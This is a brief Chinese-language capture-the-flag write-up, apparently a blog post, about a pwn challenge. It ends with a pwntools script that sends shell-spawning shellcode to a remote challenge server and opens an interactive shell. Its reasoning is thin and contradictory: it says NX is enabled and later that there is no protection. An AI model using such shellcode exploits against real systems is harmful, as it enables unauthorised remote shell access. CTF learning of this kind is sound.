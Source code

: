 ```yaml
---
title: shellcode
date: '2025-6-14 22:00'
categories:
  - PWN
---
```

![](/images/{D963E729-82E8-4920-BCC6-3E43CDB31255}1.png)
检查安全机制发现 **NX (No-Execute) 已启用**，这意味着栈内存不可执行，因此无法直接执行栈上的 shellcode。但题目中有一个明显的 **后门函数**，这应该才是解题的关键。
![](/images/Pastedimage20250605220423.png)
![](/images/Pastedimage20250605220507.png)
也没有开啥保护。
logo明显提示用shellcode,所以我们需要发送sellcode。
```python
from pwn import *
e=ELF("./pwn3")
p=remote("10.190.131.17",62534)
shellcode=asm(shellcraft.sh())
payload=shellcode
p.sendline(payload)
p.interactive()
```
![](/images/{17DD8EEB-247B-4BB2-8BA3-995677E38184}1.png)